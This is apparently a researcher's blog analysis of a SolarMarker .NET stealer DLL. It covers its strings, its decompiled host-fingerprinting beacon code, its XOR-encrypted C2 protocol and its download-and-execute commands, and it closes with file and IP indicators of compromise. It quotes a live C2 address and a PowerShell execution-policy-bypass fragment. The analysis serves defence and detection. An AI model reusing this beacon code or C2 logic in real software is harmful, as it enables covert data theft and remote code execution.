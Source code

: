 ```yaml
---
title: SolarMarker
date: 2023-05-10 00:00:00 +0800
categories: [Malware, stealer]
tags: [real_sample, .net, dll]
toc: true
---
```


# Initial assessment

Using `pestudio`
MD5: ed629af9a127724d64185a26d00ae62d

File type: 32bit .NET DLL  
Compiler stamp: `Mon Feb 22 17:24:02 2021 | UTC`
entry point: 0x0002BECE

## Imports

![image 1](/assets/img/posts/solarmarker/1.png)

some imports flagged by `pestudio` that are related to security, reconnaissance and network.

## DLL_Exports 

No Exports 

## Strings 

Some interesting strings include like function names and possible C2 IP
```
GetEnvironmentVariable
GetEnvironmentVariable
ToBase64String
FromBase64String
ToBase64String
FromBase64String
GetComputerName
GetUserName
GetComputerName
GetUserName
POST
HttpWebRequest
HttpWebRequest
WriteAllText
WriteAllBytes
WriteAllText
WriteAllBytes
Process
Process
WMI
Run
set
get
add
Select
Start
Create
Write
Delete
Add
Replace
Select
Start
Create
Write
Delete
Replace
powershell
http://5.254.118.242
GetWorkGroup
HexToString
GetWinVersion
GenRandomString
EncryptXor
EncryptStr
DecryptRaw
DecryptStr
DestAddr
SymmetricKey
Win32_ComputerSystem.Name='{0}' Workgroup
Workgroup
NT 3.51
NT 4.0
2000
Vista
8.1
Windows 
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ
userprofile
application/json
{"action":"ping","
":"
","pc_name":"
","os_name":"
","arch":"
x86
x64
","rights":"
User
Admin
","version":"
","
,"protocol_version":1,"__waste__":"
status
file
task_id
type
exe
ps1
temp
{"action":"get_file","hwid":"
","task_id":"
","protocol_version": 1,"__waste__":"
{"action":"change_status","hwid":"
","is_success":true,"protocol_version":1,"__waste__":"
-ep bypass -command "iex(get-content ' ')" command
')"command
command
-ep bypass -command ""
\AppData\Roaming\solarmarker.dat
```


# Static Analysis

open the file in `dnspy`, at Namespce Z and Class Z

from the first look noticed that the sample contain the same block of code that create a process which will do nothing related to the sample and this make the analysis harder

![image 2](/assets/img/posts/solarmarker/2.png)

So i used `de4do` but it didn't solve this problem so i  copied the code to a text editor and using some regex to clean it up and remove all the unwanted code 

Start our analysis at the `Run` method 

![image 3](/assets/img/posts/solarmarker/3.png)

it call `Z.Configuration` and `Z.GetHWID` 

![image 4](/assets/img/posts/solarmarker/4.png)

now this is the same url found in strings and Symmetric key will be used for encryption/decryption of the C2 communication 

and the GetHWID get the value from the file at path and if not found it will create it and set it to 32bytes of random chars this a strong host based IoC 

![image 5](/assets/img/posts/solarmarker/5.png)

continue the `Run` function it start collection info about the infected device and format at in a string like json 
```cs 
string data2 = string.Concat(new string[]
{
"{\"action\":\"ping\",\"",
"hwid",
"\":\"",
hwid,
"\",\"pc_name\":\"",
Z.GetComputerName(),
"\",\"os_name\":\"",
Z.GetWinVersion(),
"\",\"arch\":\"",
Z.Is64x() ? "x64" : "x86",
"\",\"rights\":\"",
Z.IsAdmin() ? "Admin" : "User",
"\",\"version\":\"",
configuration.AppVer,
"\",\"",
"workgroup",
"\":\"",
Z.GetWorkGroup(),
" | ",
"win32_computersystem",
"domain",
"\",\"",
"dns",
"\":",
(Z.WMI("win32_computersystem", "partofdomain").ToLower() == "false") ? "0" : "1",
",\"protocol_version\":1,\"__waste__\":\"",
Z.GenRandomString(random.Next(512)),
"\"}"
});
```
names of the function are exactly what they are doing so no need to explain 

![image 6](/assets/img/posts/solarmarker/6.png)
_Image 6_


then it will encrypt the string using `EncryptStr` and send it to the C2 using `Req` and decrypt the response using `DecryptStr` and convert it to json 

![image 7](/assets/img/posts/solarmarker/7.png)
_Image 7_

![image 8](/assets/img/posts/solarmarker/8.png)
_Image 8_

the encryption and decryption are simple xor and base64 conversion 

![image 9](/assets/img/posts/solarmarker/9.png)
_Image 9_

and the `Req` sends a post request to the C2 and get the response 

![image 10](/assets/img/posts/solarmarker/10.png)
_Image 10_

now if the response status is `ps1` it will write poweshell file and execute it in a new process  
the respond with the status success whether the file run or not  

![image 11](/assets/img/posts/solarmarker/11.png)
_Image 11_

and if status is `exe` it will write an exe file and run it the same idea as `ps1`

![image 12](/assets/img/posts/solarmarker/12.png)
_Image 12_

and if status is `command` it will run a PS command without writing it to a file 

![image 13](/assets/img/posts/solarmarker/13.png)
_Image 13_

and if the C2 is down will do to the next IP but in our case it only have one IP  and sleep for at least 20 seconds 


# IoC

## Host Based IoC

File at `<USER_PROFILE>\AppData\Roaming\solarmarker.dat`

## Network Based IoC

IP `5.254.118.242`
